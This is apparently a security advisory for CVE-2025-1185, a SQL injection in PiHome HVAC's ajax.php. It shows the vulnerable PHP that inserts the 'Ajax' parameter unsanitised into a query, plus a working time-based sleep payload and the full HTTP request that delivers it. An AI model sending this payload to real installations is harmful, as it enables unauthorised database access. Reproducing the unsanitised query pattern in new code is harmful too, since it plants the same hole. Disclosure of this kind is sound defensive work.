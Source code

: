 # SQL Injection in Pihome HVAC v2.0 in ajax.php

### Title: SQL Injection in PihomeHVAC in ajax.php
### Affected Component: /ajax.php
### CWE: CWE-89 (SQL Injection)
### CVE-2025-1185


### **Edits**

#### Update: 2025-02-06 16:20:00 (CET)
Edit reason: added screenshot of proof and steps to exploit



### Vendor homepage:
[https://github.com/pihome-shc/PiHomeHVAC/](https://github.com/pihome-shc/PiHomeHVAC/)

### Setup for getting the PoC to Work
Setup the project and then add a sensor. The prerequisite is that there is a sensor set up in the database. 

#### MySQL queries


```mysql
SET foreign_key_checks = 0;

INSERT INTO `sensors` 
SET 
    `sync` = 0, 
    `purge` = 0, 
    `zone_id` = 1, 
    `sensor_id` = 100, 
    `sensor_child_id` = 50, 
    `correction_factor` = 1.5, 
    `sensor_type_id` = 2, 
    `index_id` = 1, 
    `pre_post` = 0, 
    `name` = 'Temperature Sensor', 
    `graph_num` = 1, 
    `show_it` = 1, 
    `min_max_graph` = 0, 
    `message_in` = 1, 
    `frost_temp` = 0, 
    `frost_controller` = 0, 
    `mode` = 1, 
    `timeout` = 60, 
    `resolution` = 0.5, 
    `current_val_1` = 22.5, 
    `current_val_2` = 23.0, 
    `user_display` = 0;
```


### Impact:
The web application is vulnerable to SQL Injection attacks within ajax modal functionality. Attackers can exploit this vulnerability by injecting malicious input into the "Ajax" parameter,
which is used to edit values in the `sensors` table. Make sure a record exists here.

The code below shows (ajax.php line 55) that the user input is put into the query without sanitation. This is a high risk vulnerability.

```php
$pieces = explode(',', $_GET['Ajax']);
        $sensor_id = $pieces[1];
	$query="SELECT * FROM sensors WHERE id = {$pieces[1]} LIMIT 1;";
        $result = $conn->query($query);
        $row = mysqli_fetch_assoc($result);
```

The developer should escape all input properly. This is a repository wide issue.


### Proof of Concept (POC):
To exploit the SQL injection vulnerability, attackers craft a payload containing malicious input and inject it into the "Ajax" parameter. For example, 
submitting the payload `(sleep(20))--` triggers 20 seconds delay in the request. This demonstrates the successful execution of the injection within the application.


#### HTTP Request:
```
GET /ajax.php?Ajax=GetModal_Sensor_Graph,1%20OR%20(sleep(20))%20%20LIMIT%20100;-- HTTP/1.1
Host: 127.0.0.1:8844
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=087f1b0f23735d827df7afbc7ed3f8b1; PiHomeLanguage=en
Connection: keep-alive
```

### Proof with Screenshot:
![image](./assets/pihomehvac-sqli-ajax.png)




## **Credits**
> [Jelle Janssens](https://github.com/janssensjelle)